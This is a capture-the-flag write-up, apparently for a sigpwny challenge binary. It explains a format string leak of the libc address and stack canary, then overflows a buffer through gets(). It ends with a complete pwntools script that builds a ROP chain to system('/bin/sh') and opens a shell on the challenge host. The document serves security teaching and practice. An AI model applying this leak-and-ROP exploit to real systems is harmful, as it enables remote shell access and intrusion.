


Let's check the protections:



Okay so everything is enabled.  

Now from the source code there is a `format string` vulnerability and we can perform a `buffer overflow` on the `answer` variable thanks to the `gets` function. 

1. Use `pwninit` command to link the libc to the binary.  

2. We need to find a leak to compute the libc base address. I found that with the leak `%13$p` we can compute `libc_start_main_addr` who will be  `libc_start_main_addr = leaked(%13$p) - 0xf3)`, and the libc base address will be `libc_base_address = libc_start_main_addr - address_in_symbols["__libc_start_main"]`

3. Thirdly canary is activated. It means that between `saved RBP` and `answer` there is the canary value `[answer][canary][saved_RBP][return_address]`. So if we try to overwrite the return address we will need to overwrite the canary and the program will stop. The answer to this is that `%11$p` leaks the canary value so we can leak it and add it to our payload so it stays the same and do not crash the program.  

4. Use and ROP to spawn a shell

Final script:

```python
from pwn import *

def leak_hex_int(output, with_prefix=False):
	import re
	if with_prefix:	
		pattern = rb'0x[0-9a-fA-F]{4,}\b'
	else:
		pattern = rb'\b(?<!0x)[0-9a-fA-F]{4,}\b'
	matches = re.findall(pattern, output)
	return [int(m, 16) for m in matches]

def build_rop_chain(address_list):
	return b"".join([p64(addr) for addr in address_list])

elf = ELF("./challenge_patched", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
ld = ELF("./ld-2.31.so", checksec=False)

context.binary = elf
HOST = "chal.sigpwny.com"
PORT = 1369
OFFSET = 6

conn = remote(HOST, PORT)

# Leak libc address and canary value
payload = b"%13$p %11$p"
conn.sendlineafter(b"\n", payload)
res = conn.recvline()
info(f"{res = }")

# extract libc address from the program
libc_start_main_addr = leak_hex_int(res, True)[0] - 0xf3
info(f"{hex(libc_start_main_addr) = }")

# compute libc base address and from this all following addresses will be compute automatically
libc.address = libc_start_main_addr - libc.sym["__libc_start_main"]
info(f"{hex(libc.address) = }")

# compute '/bin/sh' address
bin_sh = next(libc.search(b"/bin/sh\x00"))
info(f"{hex(bin_sh) = }")

# compute 'system' address
system_addr = libc.sym["system"]
info(f"{hex(system_addr) = }")

# extract canary value
canary_value = leak_hex_int(res, True)[1]
info(f"{hex(canary_value) = }")

# To calculate the following ROP addresses automatically
rop = ROP(libc)

POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0]
info(f"{hex(POP_RDI) = }")

RET = rop.find_gadget(['ret'])[0]
info(f"{hex(RET) = }")

rop_chain = build_rop_chain([RET,POP_RDI,bin_sh,system_addr])
#        [answer_value][restored_canary][saved_RBP][ROP_chain]
payload = cyclic(40) + p64(canary_value) + b"B"*8 + rop_chain
conn.sendline(payload)
conn.interactive()
```




